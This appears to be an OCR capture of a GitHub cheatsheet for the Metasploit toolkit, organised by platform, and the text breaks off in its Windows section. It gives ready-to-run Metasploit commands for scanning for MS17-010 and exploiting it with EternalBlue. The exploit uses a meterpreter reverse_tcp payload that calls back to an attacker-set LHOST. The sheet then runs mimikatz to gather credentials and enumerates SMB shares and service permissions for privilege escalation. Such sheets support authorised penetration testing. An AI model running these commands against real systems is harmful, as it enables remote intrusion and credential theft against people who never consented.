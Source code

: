 Metasploit Toolkit #metasploit_tookit  – Detection

> Structured cheatsheet: detection commands mapped to Metasploit exploits, organized by **Windows**, **Linux**, and **Cross‑Platform / Post‑Exploitation / Lateral Movement**.

---

## 🪟 Windows

### Remote Vulns

**MS17‑010 (EternalBlue)**

- **Detect**
    

```text
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <ip_or_cidr>
run
```

- **Exploit**
    

```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

- **Post‑ex**
    

```text
use post/windows/gather/credentials/mimikatz
set SESSION <id>
run
```

**SMB Share Enumeration**

```text
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS <target>
run
```

### Local Privilege Escalation

**Service Permission Misconfig**

- **Detect**
    

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
sc qc <service_name>
```

